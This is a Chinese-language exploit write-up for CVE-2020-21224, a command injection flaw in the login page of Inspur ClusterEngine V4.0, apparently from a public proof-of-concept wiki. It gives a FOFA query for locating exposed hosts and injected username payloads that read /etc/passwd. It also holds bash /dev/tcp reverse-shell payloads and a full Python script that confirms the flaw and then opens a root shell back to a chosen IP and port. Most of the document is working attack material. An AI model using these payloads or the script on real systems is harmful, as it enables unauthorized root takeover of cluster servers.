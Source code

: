 # 浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363132634134.jpg)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631329273741.jpg)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有

一个 ' ，系统将抛出异常。

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631332332659.jpg)

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363133651576.jpg)

进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363133993692.jpg)

定尝试发送 ' ' 来查看响应包。

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631343271098.jpg)

我注意到 grep 命令错误，服务端的代码可能是这样

```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631346417038.jpg)

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363134999535.jpg)

尝试读取  **/etc/passswd**

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363135343766.jpg)

尝试列目录

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631356857102.jpg)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631359811049.jpg)

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363136276481.jpg)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363136514706.jpg)

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363136770293.jpg)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/16273631370660758.jpg)

## Goby & POC

> [!ONTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ClusterEngineV4.0_RCE

![](浪潮ClusterEngineV4.0-远程命令执行漏洞-CVE-2020-21224.assets/1627363137451019.jpg)



## 参考文章

https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

